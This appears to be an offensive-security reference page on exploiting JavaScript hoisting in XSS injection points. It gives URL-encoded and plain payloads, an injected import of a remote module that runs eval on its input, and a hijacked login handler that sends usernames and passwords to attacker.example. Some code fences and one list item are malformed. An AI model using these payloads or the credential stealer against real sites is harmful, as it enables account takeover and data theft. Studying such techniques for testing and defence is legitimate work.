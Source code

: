 # JS Hoisting


## Basic Information

In the JavaScript language, a mechanism known as **Hoisting** is described where declarations of variables, functions, classes, or imports are conceptually raised to the top of their scope before the code is executed. This process is automatically performed by the JavaScript engine, which goes through the script in multiple passes.

During the first pass, the engine parses the code to check for syntax errors and transforms it into an abstract syntax tree. This phase includes hoisting, a process where certain declarations are moved to the top of the execution context. If the parsing phase is successful, indicating no syntax errors, the script execution proceeds.

It is crucial to understand that:

1. The script must be free of syntax errors for execution to occur. Syntax rules must be strictly adhered to.
2. The placement of code within the script affects execution due to hoisting, although the executed code might differ from its textual representation.

#### Types of Hoisting

Based on the information from MDN, there are four distinct types of hoisting in JavaScript:

1. **Value Hoisting**: Enables the use of a variable's value within its scope before its declaration line.
2. **Declaration Hoisting**: Allows referencing a variable within its scope before its declaration without causing a `ReferenceError`, but the variable's value will be `undefined`.
3. This type alters the behavior within its scope due to the variable's declaration before its actual declaration line.
4. The declaration's side effects occur before the rest of the code containing it is evaluated.

In detail, function declarations exhibit type 1 hoisting behavior. The `var` keyword demonstrates type 2 behavior. Lexical declarations, which include `let`, `const`, and `class`, show type 3 behavior. Lastly, `import` statements are unique in that they are hoisted with both type 1 and type 4 behaviors.

## Scenarios

Therefore if you have scenarios where you can **Inject JS code after an undeclared object** is used, you could **fix the syntax** by declaring it (so your code gets executed instead of throwing an error):

```javascript
// The function vulnerableFunction is not defined
vulnerableFunction('test', '<INJECTION>');
// You can define it in your injection to execute JS
//Payload1: param='-alert(1)-'')%3b+function+vulnerableFunction(a,b){return+1}%3b
'-alert(1)-''); function vulnerableFunction(a,b){return 1};

//Payload2: param=test')%3bfunction+vulnerableFunction(a,b){return+1}%3balert(1)
test'); function vulnerableFunction(a,b){ return 1 };alert(1)
```
```
```javascript
// If a variable is not defined, you could define it in the injection
// In the following example var a is not defined
function myFunction(a,b){
    return 1
};
myFunction(a, '<INJECTION>')

//Payload: param=test')%3b+var+a+%3d+1%3b+alert(1)%3b
test'); var a = 1; alert(1);
```
```
```javascript
// If an undeclared class is used, you cannot declare it AFTER being used
var variable = new unexploitableClass();
<INJECTION>
// But you can actually declare it as a function, being able to fix the syntax with something like:
function unexploitableClass() {
    return 1;
}
alert(1);
```
```
```javascript
// Properties are not hoisted
// So the following examples where the 'cookie' attribute doesn´t exist
// cannot be fixed if you can only inject after that code:
test.cookie("leo", "INJECTION")
test[("cookie", "injection")]
```
```
## More Scenarios

```javascript
// Undeclared var accessing to an undeclared method
x.y(1,INJECTION)
// You can inject
alert(1));function x(){}//
// And execute the allert with (the alert is resolved before it's detected that the "y" is undefined
x.y(1,alert(1));function x(){}//)
```
```
```javascript
// Undeclared var accessing 2 nested undeclared method
x.y.z(1,INJECTION)
// You can inject
");import {x} from "https://example.com/module.js"//
// It will be executed
x.y.z("alert(1)");import {x} from "https://example.com/module.js"//")

// The imported module:
// module.js
var x = {
  y: {
    z: function(param) {
      eval(param);
    }
  }
};

export { x };
```
```
```javascript
// In this final scenario from https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/
// It was injected the: let config;`-alert(1)`//
// With the goal of making in the block the var config be empty, so the return is not executed
// And the same injection was replicated in the body URL to execute an alert

try {
  if (config) {
    return
  }
  // TODO handle missing config for: https://try-to-catch.glitch.me/"+
  let config
  ;`-alert(1)` //+"
} catch {
  fetch("/error", {
    method: "POST",
    body: {
      url:
        "https://try-to-catch.glitch.me/" +
        
let config; -
        alert(1) -
        `// +
        "",
    },
  })
}
trigger()
```
```
### Preempt later declarations by locking a name with const

If you can execute before a top-level `function foo(){...}` is parsed, declaring a lexical binding with the same name (e.g., `const foo = ...`) will prevent the later function declaration from rebinding that identifier. This can be abused in RXSS to hijack critical handlers defined later in the page:

```javascript
// Malicious code runs first (e.g., earlier inline <script>)
const DoLogin = () => {
  const pwd  = Trim(FormInput.InputPassword.value)
  const user = Trim(FormInput.InputUtente.value)
  fetch('https://attacker.example/?u='+encodeURIComponent(user)+'&p='+encodeURIComponent(pwd))
}

// Later, the legitimate page tries to declare:
function DoLogin(){ /* ... */ } // cannot override the existing const binding
```
```
Notes
- This relies on execution order and global (top-level) scope.
- If your payload is executed inside `eval()`, remember that `const/let` inside `eval` are block-scoped and won’t create global bindings. Inject a new `<script>` element with the code to establish a true global `const`.

## References

- [[https://jlajara.gitlab.io/Javascript_Hoisting_in_XSS_Scenarios|https://jlajara.gitlab.io/Javascript_Hoisting_in_XSS_Scenarios]]
- [[https://developer.mozilla.org/en-US/docs/Glossary/Hoisting|https://developer.mozilla.org/en-US/docs/Glossary/Hoisting]]
- [[https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/|https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/]]
- [[https://r3verii.github.io/bugbounty/2025/08/25/rxss-credential-stealer.html|From "Low-Impact" RXSS to Credential Stealer: A JS-in-JS Walkthrough]]

